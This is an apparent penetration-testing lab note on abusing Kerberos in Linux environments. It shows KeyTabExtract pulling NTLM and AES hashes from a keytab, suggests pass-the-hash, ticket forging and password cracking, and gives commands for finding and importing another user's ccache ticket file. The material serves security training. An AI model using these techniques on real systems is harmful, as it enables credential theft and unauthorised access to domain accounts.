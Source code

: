 >**Note:** To keep the ticket from the current session, before importing the keytab, save a copy of the ccache file present in the environment variable `KRB5CCNAME`.

Extracting Keytab Hashes with [KeyTabExtract](https://github.com/sosdave/KeyTabExtract)
``` bash
$ python3 keytabextract.py user.keytab

[*] RC4-HMAC Encryption detected. Will attempt to extract NTLM hash.
[*] AES256-CTS-HMAC-SHA1 key found. Will attempt hash extraction.
[*] AES128-CTS-HMAC-SHA1 hash discovered. Will attempt hash extraction.
[+] Keytab File successfully imported.
        REALM : domain
        SERVICE PRINCIPAL : user/
        NTLM HASH : <>
        AES-256 HASH : <>
        AES-128 HASH : <>
```

> With the NTLM hash, we can perform a Pass the Hash attack. With the AES256 or AES128 hash, we can forge our tickets using Rubeus or attempt to crack the hashes to obtain the plaintext password.
> 
> Use hashcat or john to crack NTLM or use [crackstation](https://crackstation.net/)

## ccache
- A **temporary storage** that holds **Kerberos tickets** (TGT and TGS) after a user authenticates.
- Stored in files like `/tmp/krb5cc_*` on Linux. 
- Can be **exported and imported** (e.g., `klist`, `kinit`).
- The current ticket is stored in the environment variable `KRB5CCNAME`.
- **Accessing and abusing ccache files can only be done by elevated privileges.**
- See [ccache files](https://web.mit.edu/kerberos/krb5-1.12/doc/basic/ccache_def.html) for more info.
#### Finding ccache Files
``` bash
# Reviewing Environment Variables for ccache Files.
$ env | grep -i krb5
# Searching for ccache Files in /tmp
$ ls -la /tmp
```
#### Abusing ccache Files
``` bash
# Confirm which ticket we are using
$ klist
# Importing the ccache File into our Current Session
$ cp /tmp/krb5cc_647401106_I8I133 .
$ export KRB5CCNAME=/root/krb5cc_647401106_I8I133
$ klist
Ticket cache: FILE:/root/krb5cc_647401106_I8I133
Default principal: julio@INLANEFREIGHT.HTB

Valid starting       Expires              Service principal
10/07/2022 13:25:01  10/07/2022 23:25:01  krbtgt/INLANEFREIGHT.HTB@INLANEFREIGHT.HTB
        renew until 10/08/2022 13:25:01
```
---
# Using Linux Attack Tools with Kerberos
